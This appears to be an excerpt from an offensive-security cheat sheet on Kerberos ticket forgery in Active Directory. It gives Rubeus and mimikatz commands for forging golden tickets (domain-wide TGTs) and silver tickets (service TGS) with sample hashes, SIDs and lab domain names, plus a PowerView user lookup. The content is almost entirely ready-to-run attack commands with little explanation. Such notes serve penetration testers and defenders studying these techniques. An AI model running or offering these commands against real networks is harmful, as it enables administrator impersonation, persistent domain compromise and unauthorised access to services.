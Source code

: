 ```powershell
### get user rid
Get-DomainUser -Identity Administrator 

## Rubeus
### get info about user (instead of powerview)
Rubeus.exe golden /aes256:6a8941dcb801e0bf63444b830e5faabec24b442118ec60def839fd47a10ae3d5 /ldap /user:harmj0y /printcmd
### use the info to forge a ticket
### /id is user(that we want to impersonate) rid
### /pgid is group user rid
### /netbios is domain name
### check the rest of params in https://github.com/GhostPack/Rubeus?tab=readme-ov-file#ticket-forgery
Rubeus.exe golden /aes256:6A8941DCB801E0BF63444B830E5FAABEC24B442118EC60DEF839FD47A10AE3D5 /user:harmj0y /id:1106 /pgid:513 /domain:rubeus.ghostpack.local /sid:S-1-5-21-3237111427-1607930709-3979055039 /pwdlastset:"14/07/2021 02:07:12" /minpassage:1 /logoncount:16 /displayname:"Harm J0y" /netbios:RUBEUS /groups:513 /dc:PDC1.rubeus.ghostpack.local /uac:NORMAL_ACCOUNT,DONT_EXPIRE_PASSWORD,NOT_DELEGATED

## mimikatz
./mimikatz  "kerberos::golden /domain:offense.local /sid:S-1-5-21-4172452648-1021989953-2368502130 /rc4:8584cfccd24f6a7f49ee56355d41bd30 /user:newAdmin /id:500 /ptt"
./mimikatz "kerberos::golden /domain:eagle.local /sid:S-1-5-21-1518138621-4282902758-752445584 /rc4:db0d0630064747072a7da3f7c3b4069e /user:Administrator /id:500 /renewmax:7 /endin:8 /ptt"

```

## Silver ticket
This method relies on acquiring the NTLM hash of a service account, such as a computer account, to forge a Ticket Granting Service (TGS) ticket. With this forged ticket, an attacker can access specific services on the network, impersonating any user, typically aiming for administrative privileges.

```powershell
# Rubeus
## Forge TGS | creduser and credpassword are user have access to ldap info used to query info to forge TGS
Rubeus.exe silver /service:cifs/SQL1.rubeus.ghostpack.local /rc4:f74b07eb77caa52b8d227a113cb649a6 /ldap /creduser:rubeus.ghostpack.local\Administrator /credpassword:Password1 /user:ccob  /domain:rubeus.ghostpack.local /ptt

## krbkey and krbenctype arguments are optional  
Rubeus.exe silver /service:cifs/SQL1.rubeus.ghostpack.local /rc4:f74b07eb77caa52b8d227a113cb649a6 /ldap /creduser:rubeus.ghostpack.local\Administrator /credpassword:Password1 /user:ccob /krbkey:6a8941dcb801e0bf63444b830e5faabec24b442118ec60def839fd47a10ae3d5 /krbenctype:aes256 /domain:rubeus.ghostpack.local /ptt

# mimikatz
## Forge TGS
./mimikatz "kerberos::golden /sid:S-1-5-21-4172452648-1021989953-2368502130-1105 /domain:offense.local /ptt /id:1155 /target:dc-mantvydas.offense.local /service:http /rc4:a87f3a337d73085c45f9416be5787d86 /user:admin" 
```
